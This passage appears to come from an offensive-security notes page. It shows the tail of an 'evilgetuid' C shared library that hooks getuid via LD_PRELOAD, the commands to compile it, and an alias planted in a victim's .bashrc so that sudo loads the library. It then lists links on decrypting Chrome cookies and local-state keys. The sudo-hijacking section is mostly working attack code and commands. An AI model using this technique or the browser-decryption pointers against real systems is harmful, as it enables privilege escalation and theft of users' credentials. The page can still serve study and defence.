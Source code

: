 ```c
		else // if inside the original process
		{
				printf("Returning from original...\n");
				return (*getuid_orig)();
		}

		printf("Returning from main...\n");
		return -2;
}
```
{% endcode %}

Compile:

```
$ gcc -Wall -fPIC -z execstack -c -o evilgetuid.o evilgetuid.c
$ gcc -shared -o evilgetuid.so evilgetuid.o -ldl
```

Create an evil alias to preserve environment variables when running `cp` with sudo (good candidates are `.bashrc` and `.bash_profile`):

```
alias sudo="sudo LD_PRELOAD=/home/victim/evilgetuid.so"
```

Run the target executable:

```
$ sudo cp /etc/passwd /tmp/passwd
```




## Browsers



### Chrome / Chromium

- [https://posts.specterops.io/stalking-inside-of-your-chromium-browser-757848b67949](https://posts.specterops.io/stalking-inside-of-your-chromium-browser-757848b67949)


#### Manual Local State Key Decryption

- [https://github.com/privtools/WinChromeCookieDec](https://github.com/privtools/WinChromeCookieDec)
- [https://security.googleblog.com/2024/07/improving-security-of-chrome-cookies-on.html](https://security.googleblog.com/2024/07/improving-security-of-chrome-cookies-on.html)
- [https://gist.github.com/snovvcrash/caded55a318bbefcb6cc9ee30e82f824](https://gist.github.com/snovvcrash/caded55a318bbefcb6cc9ee30e82f824)
- [https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption)
- [https://github.com/runassu/chrome_v20_decryption](https://github.com/runassu/chrome_v20_decryption)
